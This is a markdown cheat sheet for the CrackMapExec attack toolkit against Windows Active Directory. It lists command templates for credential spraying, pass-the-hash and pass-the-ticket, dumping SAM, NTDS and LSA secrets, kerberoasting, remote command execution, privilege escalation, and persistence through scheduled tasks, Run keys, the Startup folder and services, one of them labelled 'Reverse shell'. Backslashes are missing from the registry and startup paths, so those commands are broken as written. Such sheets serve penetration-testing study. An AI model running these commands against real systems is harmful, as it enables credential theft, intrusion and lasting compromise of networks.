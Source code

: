 >CME is an enumeration, attack, and post-exploitation toolkit which can help us greatly in enumeration and performing attacks with the data we gather. CME attempts to "live off the land" and abuse built-in AD features and protocols like SMB, WMI, WinRM, and MSSQL.


### General Syntax

``` zsh
./cme <service> <target>
```

### Basic Scan

``` zsh
./cme <IP>
```

``` zsh
./cme <IP>/<SUBNET>
```


### SMB Enumeration

``` zsh
./cme smb <IP> -u <USERS> -p <PASSWORDS>
```

``` zsh
./cme smb <IP> -u <USERS> -H <HASH>
```


### Admin account enumeration

``` zsh
./cme <smb|winrm> -u <USERNAME> -p <PASSWORD> -x ‘net localgroup administrators’ <IP>
```


### SAM Dumping

``` zsh
./cme <smb|winrm> -u <USERNAME> -p <PASSWORD> --sam <IP>
```


### NTDS Dumping

``` zsh
./cme smb -u <USERNAME> -p <PASSWORD> --ntds [vss,drsupai] <IP>
```


### LSA Dumping

``` zsh
./cme <smb|winrm> -u <USERNAME> -p <PASSWORD> --lsa <IP>
```


### TGS Stealing

``` zsh
./cme ldap -u <USERNAME> -p <PASSWORD> --kerberoasting <IP>
```


### Pass The Hash (PTH)

``` zsh
./cme <service> -H <HASH> <IP>
```


### Pass The Ticket (PTT)

``` zsh
./cme <prococol> -k <KERBEROS_TICKET> <IP>
```


### Lateral Movement

``` zsh
./cme <service> -u <USERNAME> -p <PASSWORD> <IP> (--local-auth)
```


### Remote Code Execution

``` zsh
./cme <smb|winrm> -u <USERNAME> -p <PASSWORD> -x <COMMAND> <IP>
```


### RDP Enable on Target

``` zsh
./cme smb -u <USERNAME> -p <PASSWORD> -M rdp
```


### Impersonate PrivEsc

``` zsh
./cme smb -u <USERNAME> -p <PASSWORD> -M impersonate
```


### Always Install Elevated PrivEsc

``` zsh
./cme smb -u <USERNAME> -p <PASSWORD> -M install_elevated
```


### File Upload

``` zsh
./cme smb -u <USERNAME> -p <PASSWORD> --put-file <LOCAL> <REMOTE>
```


### File Download

``` zsh
./cme smb -u <USERNAME> -p <PASSWORD> --get-file <REMOTE> <LOCAL>
```


### Network Connection Enumeration

``` zsh
./cme smb -u <USERNAME> -p <PASSWORD> -M get_netconnections
```


### Persistence

``` zsh
./cme <smb|winrm> -u <USERNAME> -p <PASSWORD> --x 'schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr <PAYLOAD>' <IP>
```

``` zsh
./cme <smb|winrm> -u <USERNAME> -p <PASSWORD> --x 'reg add HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun /v <name> /t REG_SZ /d "<PAYLOAD>"' <IP>
```

```zsh
./cme smb -u <USERNAME> -p <PASSWORD> --put-file <PAYLOAD> "%APPDATA%MicrosoftWindowsStart MenuProgramsStartup<PAYLOAD>" <IP>
```

``` zsh
./cme <smb|winrm> -u <USERNAME> -p <PASSWORD> --x 'sc create <service_name> binPath= "<PAYLOAD>" start=auto' <IP>
```

#### [Reference](https://www.stationx.net/crackmapexec-cheat-sheet/)
